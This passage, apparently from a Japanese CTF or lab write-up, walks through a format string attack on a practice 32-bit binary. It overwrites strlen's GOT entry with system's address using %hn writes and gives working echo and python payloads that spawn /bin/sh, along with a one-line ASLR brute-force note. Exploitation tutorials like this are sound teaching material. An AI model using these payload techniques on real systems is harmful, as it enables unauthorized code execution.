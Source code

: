 これより, strlen関数が`0x0804a018`に書き込まれることがわかる。

次に, system関数のアドレスを確認する。
gdbによって確認すると, `0xf7e16200`であることがわかる。

```bash
gdb-peda$ p system
$1 = {<text variable, no debug info>} 0xf7e16200 <system>
```

以上の情報を用いて, strlen関数をsystem関数で上書きする。
アドレスが8バイトなので, `%hn`を用いて2回に分けて攻撃を行う。
`0x0804a018~0x0804a019`に`0x6200`,
`0x0804a01a~0x0804a01b`に`0xf7e1`を書き込む。

この文字列を入れる番地を知るために, 書式文字列攻撃を行う。

```bash
$ echo -e 'AAAA,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p' | ./got 
AAAA,0x80,0xf7fb15c0,0x8048520,(nil),0xf7fdff9b,0x804822c,0x41414141,0x2c70252c,0x252c7025,0x70252c70,0x2c70252c,0x252c7025,0x70252c70
44
```

以上より, 7番目に引数が格納されることがわかった。

## 攻撃手法のまとめ
したがって, 攻撃文字列は以下な形式になる。

|書式文字列|補足|出力バイト数|積算出力バイト数|
|:-:|:-:|:-:|:-:|
|0x0804a018|GOT領域のstrlen(1)|4|4|
|0x0804a01a|GOT領域のstrlen(2)|4|8|
|%25080x|25088-8=25080|25080|25088(=0x6200)|
|%7$hn|strlenの前半4バイトを埋める|0|25088|
|%38369x|63457-25088=38369|38369|63457(=0xf7e1)|
|%8$hn|strlenの後半4バイトを埋める|0|63457|
|\n|2回目にくるfgets関数のために改行を入れておく|-|-|
|/bin/sh; cat|shellを立ち上げる|-|-|

したがって, 攻撃コードは以下のようになる。

#### echo ver.
```bash
e$ (echo -e '\x18\xa0\x04\x08\x1a\xa0\x04\x08%25080x%7$hn%38369x%8$hn\n/bin/sh'; cat) | ./got 
```

#### python ver.
**/bin/shの後に\x00を入れることで, 文字列の分割を行なっている。**
```bash
$ (python -c 'import sys;sys.stdout.buffer.write(b"\x18\xa0\x04\x08\x1a\xa0\x04\x08%25080x%7$hn%38369x%8$hn\n/bin/sh\x00\n")'; cat;) | ./got
```
## ASLRの回避
ブルートフォースで回避する。
